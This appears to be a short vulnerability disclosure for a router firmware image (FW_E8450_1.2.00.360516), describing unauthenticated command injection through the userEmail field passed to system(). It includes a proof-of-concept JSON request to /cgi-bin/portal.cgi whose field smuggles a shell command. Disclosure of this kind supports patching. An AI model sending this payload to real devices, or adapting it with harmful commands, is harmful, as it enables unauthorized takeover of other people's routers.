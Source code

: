 ## Firmware

Firmware version:FW_E8450_1.2.00.360516_prod_signed.img

## Analyze

Unauthenticated command injection 

The vulnerability is located at address 0x042BCB4. The sub_422eb8 function is an json parsing function.The parsed fields(userEmail) are used as arguments to the system function.

![](../imgs/6.png)

## Poc

Send the following data to this url to trigger the vulnerability:  http://target/cgi-bin/portal.cgi 

```
{"action":"register_email","page":"register_email_wizard","userEmail":"';id>/tmp/pwned;# '","id_email_check_btn":""}
```

![](../imgs/7.png)